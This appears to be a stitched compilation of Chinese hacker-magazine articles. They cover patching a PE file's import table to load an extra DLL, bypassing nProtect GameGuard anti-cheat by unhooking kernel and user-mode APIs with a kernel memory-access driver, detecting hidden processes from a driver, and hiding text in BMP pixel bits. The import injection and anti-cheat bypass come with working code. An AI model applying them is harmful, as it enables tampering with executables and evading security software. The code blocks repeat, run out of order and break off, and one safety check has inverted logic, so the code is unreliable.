DWORD OffsetToVirtuanAddr(DWORD dwOffset,
BYTE *pFileImage)
{
    PIMAGE_DOS_HEADER pDosHeader =
    (PIMAGE_DOS_HEADER)pFileImage;
    PIMAGE_FILE_HEADER pFileHeader =
    (PIMAGE_FILE_HEADER)(pFileImage + pDosHeader->e_lfanew + 4);
    PIMAGE_OPTIONAL_HEADER32 pOptionalHeader =
    (PIMAGE_OPTIONAL_HEADER32)(pFileImage
    + pDosHeader->e_lfanew + 4 + sizeof(IMAGE_FILE_HEADER));
    PIMAGE_SECTION_HEADER pSectionHeader =
    (PIMAGE_SECTION_HEADER)(((char*)pOptionalHeader)
    + sizeof(IMAGE_OPTIONAL_HEADER32));
    PIMAGE_SECTION_HEADER pSectionBelong =
    NULL;
    for(int i = 0; i < pFileHeader->NumberOfSections; i++)
        if(pSectionHeader[i].PointerToRawData <=
           dwOffset && pSectionHeader[i].PointerToRawData + pSectionHeader[i].SizeOfRawData >= dwOffset)
```

```c
BYTE *pFileImage = (BYTE*)pPeImage;
PIMAGE_DOS_HEADER pDosHeader =
(PIMAGE_DOS_HEADER)pFileImage;
PIMAGE_FILE_HEADER pFileHeader =
(PIMAGE_FILE_HEADER)(pFileImage + pDosHeader->e_lfanew + 4);
PIMAGE_OPTIONAL_HEADER32 pOptionalHeader =
(PIMAGE_OPTIONAL_HEADER32)(pFileImage +
pDosHeader->e_lfanew + 4 + sizeof(IMAGE_FILE_HEADER));
BYTE *pInterPoint = pFileImage + VirtualAddrToOffset(pOptionalHeader->AddressOfEntryPoint,
pFileImage);
PIMAGE_SECTION_HEADER pSectionHeader =
(PIMAGE_SECTION_HEADER)(((char*)...
```

## 编程剖析 / PROGRAMMING ANALYSE

```c
pOptionalHeader)+sizeof(IMAGE_OPTIONAL_HEADER32));
BYTE *pRDataEnd = pFileImage + pSectionHeader[1].PointerToRawData + pSectionHeader[1].SizeOfRawData - 1;
UINT nPadSize = 0;
while(pRDataEnd[0] == 0)
{
  nPadSize++;
  pRDataEnd--;
}
nPadSize--;
```

```c
while(pOriginalImportDescriptor[nImportDescriptor].Characteristics != 0);
DWORD dwBufferSize = sizeof(IMAGE_IMPORT_DESCRIPTOR) * nImportDescriptor;
if(nPadSize > dwBufferSize + sizeof(IMAGE_IMPORT_DESCRIPTOR))
{
  memcpy(pPadStart, pOriginalImportDescriptor, dwBufferSize);
```

程序首先通过上面的循环获得填充数据的长度，然后再获得需要写入的新的 IMAGE_IMPORT_DESCRIPTOR 数组的长度，存储在“dwBufferSize”中。

下面我们再给新的 IMAGE_IMPORT_DESCRIPTOR 数组项赋值，使用函数 OffsetToVirtuanAddr() 得到上面准备的各个变量的偏移地址对应的虚拟地址。

```c
BYTE *pPadStart = ++pRDataEnd;
PIMAGE_IMPORT_DESCRIPTOR pOriginalImportDescriptor = (PIMAGE_IMPORT_DESCRIPTOR)
(pFileImage + VirtualAddrToOffset(pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress, pFileImage));
int nImportDescriptor = 0;
do
{
  nImportDescriptor++;
}
while(pOriginalImportDescriptor[nImportDescriptor].Characteristics != 0);
DWORD dwBufferSize = sizeof(IMAGE_IMPORT_DESCRIPTOR) * nImportDescriptor;
if(nPadSize > dwBufferSize + sizeof(IMAGE_IMPORT_DESCRIPTOR))
{
  memcpy(pPadStart, pOriginalImportDescriptor, dwBufferSize);
```

```c
pImportDescriptorAdded->ForwarderChain = 0;
pImportDescriptorAdded->TimeDateStamp = 0;
pImportDescriptorAdded->Name = OffsetToVirtuanAddr((BYTE*)pOriginalImportDescriptor - pFileImage, pFileImage);
pImportDescriptorAdded->FirstThunk = OffsetToVirtuanAddr((BYTE*)(pOriginalImportDescriptor + i) - pFileImage, pFileImage);
pImportDescriptorAdded->OriginalFirstThunk = OffsetToVirtuanAddr((BYTE*)(pOriginalImportDescriptor + i) - pFileImage, pFileImage);
```

如果填充区域大小足够，则拷贝旧的数组，并写入新数组项，导入 DLL 文件“trydll.dll”。接下来还需要准备新数组项对应成员变量和相关变量，如“Name”“IMAGE_THUNK_DATA”和“IMAGE_IMPORT_BY_NAME”等等，程序就是利用了原来的 IMAGE_IMPORT_DESCRIPTOR 数组写入这些数据的。

```c
pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress = OffsetToVirtuanAddr(pPadStart - pFileImage, pFileImage);
pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].Size += sizeof(IMAGE_IMPORT_DESCRIPTOR);
printf("Succee");
```

最后调整选项头部的内容，即可大功告成，如图4所示。

```c
BYTE *pPadStart = ++pRDataEnd;
PIMAGE_IMPORT_DESCRIPTOR pOriginalImportDescriptor = (PIMAGE_IMPORT_DESCRIPTOR)
(pFileImage + VirtualAddrToOffset(pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress, pFileImage));
int nImportDescriptor = 0;
do
{
  nImportDescriptor++;
}
while(pOriginalImportDescriptor[nImportDescriptor]...)
```



这段代码主要作为原理演示之用，所以许多该判断的边界条件都没有判断，而是直接硬编码实现。所以大家如果需要实现类似的功能，还要针对这段代码进行改进。最后声明一句，文中代码请用于合法用途，否则一切后果，作者概不负责。

## 魔王如何 over nProtect 保护体系

- 适合读者：编程爱好者
- 前置知识：VC、汇编

文/图 快乐的人

nProtect是INCA Internet开发的系列安全产品，国内最早应用的是QQ的nProtect KeyCrypt键盘保护系统，目前国内应用得最多的是nProtect GameGuard系列产品。nProtect GameGuard会采用各种手段来监视系统中有无各种异常情况发生，发现任何威胁立刻BSOD。nProtect的存在，导致很多调试软件无法运行，难道我们就只能卸载游戏或者卸载调试器了？不，我们一定要找到办法，让我们的调试器和nProtect共存。

## nProtect保护体系总览

nProtect GameGuard保护体系的主要文件是GameMon.des，别看是des后缀名，其实却是一个EXE文件，也就是nProtect GameGuard的主程序。GameMon.des负责完成一切保护前期工作，以及保护监视工作。游戏启动过程大致就是游戏主程序启动GameGuard.des和GameMon.des，然后释放出dump_wmimmc.sys这个驱动并加载入系统，再对每一个进程注入npggNT.des，除了smss.exe、csrss.exe和idle，因为前面两个是系统核心进程，后面一个则是特殊进程，nProtect不需要也没意义去动它们。然后dump_wmimmc.sys将完成ssdt和ssdtshadow的hook，npggNT.des完成usermode下的一切hook，然后GameMon.des开始连接游戏服务器，检测游戏有无升级、有无被修改过。如果这一切检测通过，就能够进入游戏。不过不要小看了nProtect，这个检测过程会一直进行，直到游戏退出。

## nProtect保护体系分析

在开始分析之前，我们需要有一个程序来辅助我们分析。但这个程序是什么呢？很难找，常用的调试器，比如softice、syserdebug等我没有去测试，因为肯定会BSOD；测试了Windbg发现被拦截，于是我们从安全检测软件下手。首先是icesword，nProtect直接让其BSOD了，darkspy和RootkitRevealer没有内核模块hook检测功能，gmer、SnipeSword和latool无法启动。这时感谢anskya大侠的提示，使用Rootkit Unhooker，而且注意启动顺序，先启动游戏，再启动RKU，这时RKU会提示有模块npggNT.des侵入，一定要ban掉。如果被npggNT.des侵入，那么RKU会无法工作，之前那些安全软件都是被npggNT.des侵入或者列入黑名单导致无法工作的，看来自有RKU可以帮助我们了。下面我们用RKU输出一份报告，先看其内核部分，SSDT表面上没有hook，其实却有inline，下文会进行分析。

这个函数是用来发送键盘输入的，原型如下。

```cpp
ULONG __stdcall NtUserSendInput(
    ULONG nInputs,
    LPINPUT pInput,
    ULONG cbSize
);
```

这在对抗模拟点击时有作用，但对我们调试没有影响。

其进程部分隐藏了游戏进程和GameMon.des，驱动dump_wmimmc.sys也实现了自身隐藏。值得多说一句的是，隐藏进程不是通用的hook，这里RKU提示有误，应该是断开了链表隐藏的，比较邪恶。下面开始重头戏，nProtect的核心力量在这里。

```text
ntoskrnl.exe+0x00004AA2, Type: Inline - RelativeJump at address 0x804DCAA2, hook handler located in [ntoskrnl.exe]

ntoskrnl.exe+0x000147DA, Type: Inline - RelativeJump at address 0x804EC7DA, hook handler located in [dump_wmimmc.sys]

ntoskrnl.exe->KeAttachProcess, Type: Inline - RelativeJump at address 0x804EC938, hook handler located in [dump_wmimmc.sys]

ntoskrnl.exe->KeStackAttachProcess, Type: Inline - RelativeJump at address 0x804F2743, hook handler located in [dump_wmimmc.sys]

ntoskrnl.exe->NtDeviceIoControlFile, Type: Inline - RelativeJump at address 0x8057CF7B, hook handler located in [dump_wmimmc.sys]

ntoskrnl.exe->NtOpenProcess, Type: Inline - RelativeJump at address 0x80574C96, hook handler located in [dump_wmimmc.sys]

ntoskrnl.exe->NtProtectVirtualMemory, Type: Inline - RelativeJump at address 0x80575045, hook handler located in [dump_wmimmc.sys]

ntoskrnl.exe->NtReadVirtualMemory, Type: Inline - RelativeJump at address 0x8057F48E, hook handler located in [dump_wmimmc.sys]

ntoskrnl.exe->NtWriteVirtualMemory, Type: Inline - RelativeJump at address 0x8057F5E0, hook handler located in [dump_wmimmc.sys]
```

前面两个hook我们无需分析，认真看好NtOpenProcess、NtProtectVirtualMemory、NtReadVirtualMemory和NtWriteVirtualMemory，它们的作用是进程的打开、内存保护设定以及读写，我们的调试器需要的就是这个。KeAttachProcess和KeStackAttachProcess本质上是一个作用，进入指定进程，为Windbg一类内核调试器所使用。

在内核模式中还有一个东西不得不提一下，就是CreateProcessNotify，它负责监视新进程的建立，完成插入npggNT.des的工作。

用户模式下就是插入到各个进程里面的npggNT.des了，我们看看。全部报告很长，这里只选择一个有代表性的进程来分析。

```text
[440]EXPLORER.EXE-->kernel32.dll-->CreateProcessInternalW, Type: Inline - RelativeJump at address 0x7C8191EB, hook handler located in [npggNT.des]

[440]EXPLORER.EXE-->kernel32.dll-->DebugActiveProcess, Type: Inline - RelativeJump at address 0x7C859F0B, hook handler located in [npggNT.des]

[440]EXPLORER.EXE-->kernel32.dll-->LoadLibraryExW, Type: Inline - RelativeJump at address 0x7C801AF1, hook handler located in [npggNT.des]

[440]EXPLORER.EXE-->kernel32.dll-->OpenProcess, Type: Inline - RelativeJump at address 0x7C81E079, hook handler located in [npggNT.des]

[440]EXPLORER.EXE-->ntdll.dll-->NtTerminateProcess, Type: Inline - RelativeJump at ...

[440]EXPLORER.EXE-->user32.dll-->keybd_event, Type: Inline - RelativeJump at address 0x77D66341, hook handler located in [npggNT.des]

[440]EXPLORER.EXE-->user32.dll-->mouse_event, Type: Inline - RelativeJump at address 0x77D662FD, hook handler located in [npggNT.des]
```

EXPLORER.EXE里面的hook也是相当多的，上面只是一部分。一些ntdll和kernel32的API重复挂接、互相监视，我们就不一一分析了，基本上都是进程操作相关API全部挂接了，后文我们将使用通用办法来解除它们。

#### 解除 nProtect 的内核保护系统

内核保护系统比较薄弱。对于我们的OD来说，需要的API只有4个NtOpenProcess和3个进程操作API。inline hook的手段是修改前面5个字节为jmp，我们可以使用自己的代码来完成这个工作。

```cpp
HANDLE MyOpenProcess(HANDLE ProcessId)
{
    PEPROCESS Process;
    NTSTATUS St;
    HANDLE hProcess = NULL;
    PsLookupProcessByProcessId(ProcessId, &Process);
    ObOpenObjectByPointer(Process, 0, NULL, 0, NULL, UserMode, &hProcess);
    ObDereferenceObject(Process);
    return hProcess;
}

BOOLEAN ReadProcessMemory(DWORD PID, PEPROCESS PEProcess, PVOID Address, DWORD Size, PVOID Buffer)
{
    PEPROCESS selectedprocess = PEProcess;
    NTSTATUS ntStatus = STATUS_SUCCESS;
    if (PEProcess == NULL)
    {
        if (!NT_SUCCESS(PsLookupProcessByProcessId((PVOID)PID, &selectedprocess)))
            return FALSE; // couldn't get the PID
    }
    ...
}
```

```cpp
__try {
    unsigned int temp = (unsigned int)Address;
    ULONG currentcr3;
    KeAttachProcess((PEPROCESS)selectedprocess);
    __try {
        char* target;
        char* source;
        unsigned int i;
        if ((IsAddressSafe((ULONG)Address)) || (!IsAddressSafe((ULONG)Address + Size - 1)))
            return FALSE; // if the first or last byte of this region is not safe, then exit;
        target = Buffer;
        source = Address;
        RtlCopyMemory(target, source, Size);
        ntStatus = STATUS_SUCCESS;
    } __finally {
    }
}
```

WriteProcessMemory和ReadProcessMemory类似，不过更换了来源和目标，本质上都是数据复制，代码不再重复。

我们的代码中需要KeAttachProcess，需要写一个MyKeAttachProcess，先自己完成KeAttachProcess前面的5个字节，再跳转过去。

```asm
lkd> u KeAttachProcess
nt!KeAttachProcess:
804ea9b3 8bff      mov edi,edi
804ea9b5 55        push ebp
804ea9b6 8bec      mov ebp,esp
```

一般情况下，系统API前面都是这几个字节，我们可以考虑写一个通用的unhook函数自动帮助我们完成前面5个字节，再跳转到真实API+5的地方。不过，如果自己模拟10个字节也许效果会更好，但是我觉得缺乏通用性，增加的那点强度没有必要。

#### 解除 nProtect 的 User Mode 保护体系

User Mode下就是注入到每个进程的npggNT.des了，hook很多，我们必须使用一个通用方案来解决。上文的所有inline hook也可以使用这些方法。

- 1）最巧妙的方法是大玩Patch的游戏。nProtect对我们的程序设置了hook，我们也来在nProtect程序里面设置hook。还是先说说原理，hook的本质是在原始函数里面jmp到自己的函数，如果发现是被保护进程就直接返回，如果不是再去调用原始函数，总之是一定会去原始函数的。我们可以分析hook函数代码，找寻条件判断分支，然后予以Patch。更好的办法是在判断函数内部开头改成“mov eax,1 ret”，这样能够一次对所有用了这个判断函数的hook一次性解决。以前我用这个办法一次性解决了fishpe的8个ssdt hook，但是具体到我们这个程序，有一些不太方便的地方。大家知道nProtect使用了Code Virtualization来虚拟化一些代码，导致不好分析，此时可以采用一些巧妙办法，其中之一就是借助反汇编引擎。anskya大侠写了一个很好的引擎来帮助我们完成这一切，引擎帮助识别call和je/jnz，利用搜索被备份的原始字节，以及判断jmp地址是否在模块之外高效寻找代码。原理很简单，hook函数必然要备份原始字节并且跳回执行，这样反向搜索能够很快定位到跳转点，而且搜索到的地址比较通用，除非nProtect做大的更新，不然是一直可以使用的。

- 2）最通用的办法：自己实现前面5个原始字节，跳转到API+5的地方。这种办法比较通用，可以对付多种hook。缺点是只能对付标准jmp，一些变形jmp或者push ret可能利用了多于5字节，我们直接跳回API+5会出错。解决办法还是需要反汇编引擎识别代码，不过由于变形hook比较少见，我们也不必特别对付，还是实现jmp API+5就可以了。

- 3）具体实现分析：由于第二种方法比较通用，我们重点分析这种办法，第一种方法是一种针对性方法，我们以后再做讨论。

我们要处理的API很多，所以不能一个一个地写替换函数，需要写一个通用函数来帮助我们。微软有一个通用hooklib叫做detour，我们再自己完成一个undetour。

```cpp
void __declspec(naked) UnDetour(PVOID oldfunc)
{
    __asm {
        mov edi,edi
        push ebp
        mov ebp,esp
        mov eax,oldfunc
        add eax,5
        jmp eax
    }
}
```

__declspec(naked)的目的是不产生堆栈帧，就是那些入口处编译器自动加的push ebp和mov ebp,esp，还有返回的ret等，我们不需要这样的代码。这段代码的使用方法就是直接执行undetour(api)，就能够完成需要的功能了。

最后再给大家介绍一些小技巧，只能专门针对nProtect，并不能通用。比如清除nProtect的内核监视线程和监视进程，然后恢复SSDT和usermode的hook，也能够完成击破nProtect的工作。不过这种做法比较容易BSOD。nProtect有线程在监控自身，如果恢复不完整或者不够彻底，那么等待你的就是BSOD。而且听人说游戏会动态检测nProtect，如果nProtect被清除了，游戏就会出错，这个情况我没有仔细测试。我的目的在于清除nProtect的保护体系，让nProtect和我的调试器和平共处。

当然，如果你想直接调试nProtect，那么还有一些小小的伎俩要清除。不过相比上文那些hook，就算微不足道了，比如说OllyDBG的进程名、窗口、字符之类的检测，相信应该难不倒你了，找一个比较新的OD隐藏插件就能够完美解决了。///D

- 适合读者：编程爱好者
- 前置知识：VC

### 在内核驱动中检测隐藏进程

文/图 牵着蜗牛去散步

在安全检测工具中，一般都比较重视隐藏进程的检测。道理很简单，正常的进程没有必要去隐藏自己，毕竟隐藏进程花费的代价还是很高的。为什么这么说呢？系统中安装了钩子，运行效率自然不会很高，人正不怕影子歪，所以说没有必要去隐藏自己。当然也有一些例外的网游，为了保护自己从而隐藏进程，常见的有韩国nProtect公司的跑跑卡丁车，就存在隐藏进程GameMon.des的运行。

目前大多数流行的木马，如PcShare、灰鸽子的隐藏进程方法一般都采用Hook SSDT，其好处就是从Windows 2000到最新的Windows Vista操作系统都兼容且运行稳定。对于通过Win32 API，如EnumProcess或CreateToolhelp32Snapshot这样的Ring3 API枚举进程的工具都可以完美地绕过，也包括Windows任务管理器使用的NtQuerySystemInformation（它由Ntdll.dll导出）。

这种隐藏进程的原理也很清晰，正常情况下这些用户态的程序是从Ring3一层一层进入到Ring0中。常规的进程管理器软件，如Windows优化大师，都是从CreateToolhelp32Snapshot（通过反编译Windows优化大师，发现没有采用EnumProcess来枚举，因为该函数由Psapi.dll中导出，Win9x系统不支持）=> NtQuerySystemInformation => ZwQuerySystemInformation，如图1所示。

这样，每通过Win32 API枚举进程时，在返回数据时到了Hook ZwQuerySystemInformation这一步时，会过滤需要隐藏的进程（这一过程是跳转到自己的一个特定的地址处理）。隐藏进程的操作，也就是链表的删除，其实没有什么神秘的。

检测的方法同样也很简单，今天我们说的方法算是最稳定、最简单的在Ring0下检测隐藏进程的了，不需要牵扯到稍微复杂的PspCidTable（进程句柄表），毕竟PspCidTable的结构对于每一个系统来说是不一样的，在Windows 2000中为两层表，到了XP以后就变成三层了；同时，它在每个系统中获得的地址也不一样，所以我们仍使用 ZwQuerySystemInformation 来枚举。或许有人会说它只能枚举出 Ring3 中 Hook EnumProcess 或 Hook CreateToolhelp32Snapshot 这样的 Win32 API 隐藏的进程。由于篇幅的问题，如何获取真实的 SSDT（系统服务描述表）地址，我会在下一期中告诉大家通用的方法获取该值，所以大家不用担心无法检测到灰鸽子、PcShare 木马。

首先要说的是，在驱动中分配内存的函数不再是 new 和 delete，而是 ExAllocatePool 和 ExFreePool。如果系统进程过多，ZwQuerySystemInformation 的调用可能会失败。本文采用一个循环重新分配缓冲区的大小，每次增加两倍的缓冲区大小，直到成功为止。文中缓冲区的初始值大小为 32KB，如果首次分配过多会导致 SYSTEM 内核进程内存占用过多，影响系统性能等问题。同时内核驱动为 Unicode 编码，这点需要大家注意。

```c
NTSTATUS Ring0EnumProcess()
{
    ULONG cbBuffer = 0x8000;
    // 初始化缓冲区大小 32KB
    PVOID pBuffer = NULL;
    NTSTATUS Status;
    PSYSTEM_PROCESS_INFORMATION pInfo;
    do {
        pBuffer = ExAllocatePool(NonPagedPool, cbBuffer);
        if (pBuffer == NULL)
            return 1;
        Status = ZwQuerySystemInformation(SystemProcessesAndThreadsInformation, pBuffer, cbBuffer, NULL);
        if (Status == STATUS_INFO_LENGTH_MISMATCH) {
            ExFreePool(pBuffer);
            cbBuffer *= 2;
        } else if (!NT_SUCCESS(Status)) {
            ExFreePool(pBuffer);
            return 1;
        }
    } while (Status == STATUS_INFO_LENGTH_MISMATCH);

    pInfo = (PSYSTEM_PROCESS_INFORMATION)pBuffer;
    for (;;) {
        LPWSTR pszProcessName = pInfo->ProcessName.Buffer;
        ...
    }
}
```

```c
if (pszProcessName == NULL)
    pszProcessName = L"NULL";
// 如果获取映像名失败返回空
DbgPrint("pid %d ps %S\n", pInfo->ProcessId, pInfo->ProcessName.Buffer);
if (pInfo->NextEntryDelta == 0)
    break;
pInfo = (PSYSTEM_PROCESS_INFORMATION)(((PUCHAR)pInfo) + pInfo->NextEntryDelta);
ExFreePool(pBuffer);
return 0;
```

我们使用本文附件中的 DbgView 工具来捕获 DbgPrint 函数打印的调试信息。由于 DbgView 支持 Win32 消息的捕获，会产生很多其他 Win32 垃圾信息，这里我们仅选择 Capture Kernel 捕获内核态的信息就可以了，也可以通过一个用户态的程序来读取这个驱动传递的消息。

最后用附件中的 DrvLoader 工具来载入本文编译后的 ring0.sys 文件，单击“Load”即可，如图2所示。



图2

最后要说明的是，编译该例程需要至少 Windows 2000 NTDDK 才可以。由于 ZwQuerySystemInformation 的结构很复杂，所有成员写出来要占用大约五六页的篇幅，这里就不再赘述，但它和 NtQuerySystemInformation 的结构相似，大家可以在 MSDN 中通过查找 NtQuerySystemInformation 得到。本文在源代码中有部分成员的描述。本文介绍的方法只能检测出 Win32 API 隐藏的进程，在下一期中，我将告诉大家如何获取真实的系统服务描述表（SSDT）地址，实现 Hook SSDT 的隐藏进程的检测方法。

适合读者：编程爱好者

前置知识：VC

## 利用BMP图片水印技术写入加密信息

文／图［黑防vip］lwt831120



本文主要和大家讨论一下 BMP 图片水印技术。其实 BMP 图片水印技术就是在 BMP 图片中写入编码后的数据，但写入数据后的图片在外观上和原始图片没有区别（只有文件哈希值改变），并能用特定的程序将写入的信息还原出来。

## BMP图片规格

BMP 图片存放时按照每个像素的 RGB 信息存储，每个像素的颜色用一个字节（8bit）存放。BMP 图片的文件头如图1和图2所示。

| BM | 文件大小 | 保留字段 | 数据区起始 | 图像信息头 | 图像宽度 | 图像长度 |
|---|---|---|---|---|---|---|

图1

```text
00000000h: 42 4D 36 00 09 00 00 00 00 00 36 00 00 00 ...
00000010h: 00 00 00 02 00 00 80 01 00 00 18 00 00 00 ...
00000020h: ...
```

图2

0x42、0x4D 表示 BMP 图片的标识；0x36、0x09、0x00、0x00 表示 BMP 图片的文件大小；0x36、0x00、0x00、0x00 表示 BMP 图片的数据区从第几个字节开始；0x00、0x02、0x00、0x00 表示 BMP 图片的像素宽度；0x80、0x01、0x00、0x00 表示 BMP 图片的像素高度；0x18、0x00、0x00、0x00 表示 BMP 图片的每个点的像素值。以上这些特殊字节都是记录 BMP 图片信息的地方，是不能进行修改的，这就是 BMP 图片文件头的格式。虽然 BMP 图片中的一些特殊字节是我们不能修改的，但是 BMP 图片的数据区是可以修改的，数据区如图3所示，从 55 字节处开始，其中 0xFF、0x00、0x00 分别表示 RGB 信息（0~255）。

```text
00000030h: ...
00000040h: 00 FF 00 00 FF 00 00 FF 00 00 FF 00 00 ...
00000050h: FF 00 00 FF 00 00 FF 00 00 FF 00 00 ...
```

图3

#### 程序原理

我实现程序的基本原理就是将要写入图片的信息逐一进行二进制编码后，分别写入 RGB 字节的末尾。例如要将 a 写入图片中，a 的 ASCII 码 97，二进制为 01100001，原始图片的第 55 个字节数据区开始的 8 个字节的信息分别为 0x00、0xFF、0x00、0x00、0xFF、0x00、0x00 和 0xFF，将 a 的二进制编码写入（为方便起见，编码我采取从右到左的顺序写入），如图4所示。

| 0x00 | 0xFF | 0x00 | 0x00 | 0xFF | 0x00 | 0x00 | 0xFF |
|---|---|---|---|---|---|---|---|
| 1 | 0 | 0 | 0 | 0 | 1 | 1 | 0 |

图4

编码时只需要将二进制写入 RGB 的末尾，若 1 写入 0x00，只需将“00000000 \| 00000001 = 00000001”，此时 0x00 就变为 0x01；若 0 写入 0xFF，只需将“11111111 & 11111110 = 11111110”，此时 0xFF 就变为 0xFE。以此类推，这样就可以将 a 的二进制编码写入 RGB 的末尾了。由于颜色变化仅仅为 0xFF 变为 0xFE，肉眼是无法分辨出来的。写入 a 后的图片如图5所示。但是在进行汉字编码的时候，由于汉字使用的是 Unicode 编码，且由两个负数组成，所以必须加入汉字标识位。

```text
00000030h: 00 00 00 01 00 00 00 FE 00 00 FE 01 01 FE 00 ...
```

图5

#### 写入代码实现

```c
void write_information()
{
    FILE *fp,*ip;
    // 定义了指向 BMP 图片和文本文件的文件指针
    int i=0,input_temp[8]={0,0,0,0,0,0,0,0},j,t=0,x,y,text_ch=0;
    int Re_size,input_pointer,bmp_size;
    unsigned char bmp_data[8];
    char input_data;
    // 打开 BMP 图片文件
    if((fp=fopen(FileName,"r+b"))==NULL)
    {
        printf("\n-->打开 BMP 文件错误\n");
        exit(1);
    }

    // 打开 txt 文本文件
    if((ip=fopen("input.txt","r"))==NULL)
    {
        printf("\n-->打开 input 文件错误\n");
        exit(1);
    }

    // 判断文本文件大小是否能写入图片，Re_size 为返回是否写入判断值
    Re_size=Txt_size();
    if(Re_size==0)
    {
        exit(1);
    }

    // 得到输入的文本文件的大小，input_pointer 为文件指针的位置
    fseek(ip,0,SEEK_END);
    input_pointer=ftell(ip);
    if(input_pointer==0)
    {
        printf("\n-->input.txt 文件中的内容为空，请写入数据\n");
        exit(1);
    }
    printf("\n-->input.txt 文件中现在有:%d 个字节\n",input_pointer);
    rewind(ip);

    // 得到 BMP 图片的大小，bmp_size 为 BMP 图片文件的大小
    fseek(fp,0,SEEK_END);
    bmp_size=ftell(fp);
    rewind(fp);

